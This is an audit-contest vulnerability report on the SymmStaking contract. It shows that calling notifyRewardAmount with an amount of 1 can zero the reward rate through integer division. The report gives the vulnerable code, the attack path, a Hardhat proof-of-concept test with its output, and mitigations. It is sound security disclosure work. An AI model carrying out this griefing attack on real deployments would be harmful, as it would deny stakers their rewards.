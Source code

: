 Wild Red Deer

High

# Malicious user will block reward by calling notifyRewardAmount with 1 amount.

### Summary

If the remaining reward token balance drops below 604,800, a malicious user can prevent all depositors from receiving rewards by calling notifyRewardAmount with an amount of 1.


### Root Cause

In notifyRewardAmount() function of SymmStaking.sol file
The function calls _addRewardsForToken() function.
In _addRewardsForToken() function , 

https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/staking/SymmStaking.sol#L366

```solidity
function _addRewardsForToken(address token, uint256 amount) internal {
		TokenRewardState storage state = rewardState[token];

		if (block.timestamp >= state.periodFinish) {
			state.rate = amount / state.duration;
		} else {
			uint256 remaining = state.periodFinish - block.timestamp;
			uint256 leftover = remaining * state.rate;
			state.rate = (amount + leftover) / state.duration;
		}

		state.lastUpdated = block.timestamp;
		state.periodFinish = block.timestamp + state.duration;
	}
```

In state.rate = (amount + leftover) / state.duration;
state.duration = 1 week = 604800

So if leftover < 604800 - 1 and call _addRewardsForToken with amount = 1, the state.rate will be 0.

So users can't receive enough reward even though many time is passed.



### Internal Pre-conditions

1. Remaining reward token amount needs to be 604800 - 1

### External Pre-conditions

N/A

### Attack Path

1. Attacker will wait until leftover will be  604800 - 1
2. Attacker call notifyRewardAmount(token, 1);

### Impact

A malicious user can effectively block all depositors from receiving staking rewards if the remaining reward token balance is below 604,800. 
By calling notifyRewardAmount with a minimal amount (e.g., 1 token), they can trigger the reward distribution mechanism in a way that prevents meaningful rewards from being allocated, leading to a denial of rewards attack. 

As a result , users will lose below 604800 reward tokens as total and this could discourage participation in the staking protocol and reduce user trust.


### PoC

In symmStaking.behavior.ts

```solidity
describe("Reward Calculation", function () {

         it("should not get reward after notifyRewardAmount", async function () {
			// Scenario: User1 deposits 604,800 SYMM, User2 deposits 302,400 SYMM, both claim USDT after 200s in 2:1 ratio.
			const depositUser1 = "604800"
			const depositUser2 = "302400"

			await stakingToken.connect(user1).approve(await symmStaking.getAddress(), depositUser1)
			await stakingToken.connect(user2).approve(await symmStaking.getAddress(), depositUser2)

			await symmStaking.connect(user1).deposit(depositUser1, user1.address)
			await symmStaking.connect(user2).deposit(depositUser2, user2.address)

			const rewardAmount = "604800"
			await usdtToken.connect(admin).approve(await symmStaking.getAddress(), rewardAmount)
			await symmStaking.connect(admin).configureRewardToken(await usdtToken.getAddress(), true)
			await symmStaking.connect(admin).notifyRewardAmount([await usdtToken.getAddress()], [rewardAmount])

			await time.increase(100)


			const user1BalanceBefore = await usdtToken.balanceOf(user1.address)
			await symmStaking.connect(user1).claimRewards()
			const user1BalanceAfter = await usdtToken.balanceOf(user1.address)
			const user1Claimed = user1BalanceAfter - user1BalanceBefore

			console.log("reward of user1 after 100s");
			console.log(user1Claimed);
			

			let user3 = context.signers.user3 //attacker

			await usdtToken.connect(admin).transfer(user3.address, 1)
			await usdtToken.connect(user3).approve(await symmStaking.getAddress(), "1")
			
			//attacking
			await symmStaking.connect(user3).notifyRewardAmount([await usdtToken.getAddress()], [1])

			await time.increase(600000)


			const user1BalanceBefore1 = await usdtToken.balanceOf(user1.address)
			await symmStaking.connect(user1).claimRewards()
			const user1BalanceAfter1 = await usdtToken.balanceOf(user1.address)
			const user1Claimed1 = user1BalanceAfter1 - user1BalanceBefore1

			console.log("reward of user1 after 600100s");
			console.log(user1Claimed1);

			const user2BalanceBefore = await usdtToken.balanceOf(user2.address)
			await symmStaking.connect(user2).claimRewards()
			const user2BalanceAfter = await usdtToken.balanceOf(user2.address)
			const user2Claimed = user2BalanceAfter - user2BalanceBefore

			console.log("reward of user2 after 600100s");
			console.log(user2Claimed);
			
		})

})
```

Run command : npx hardhat test --grep 'should not get reward after notifyRewardAmount'

Result : 

reward of user1 after 100s
67n
reward of user1 after 600100s
1n
reward of user2 after 600100s
34n


As Poc shows, users could get correct reward before attacker call notifyRewardAmount().
But after it, even though most reward time is passed, get only 1 token.

### Mitigation

There are some selection by design choice.

1. Add manage role in notifyRewardAmount() function.
2. Or if rate == 0, revert it in _addRewardsForToken() function.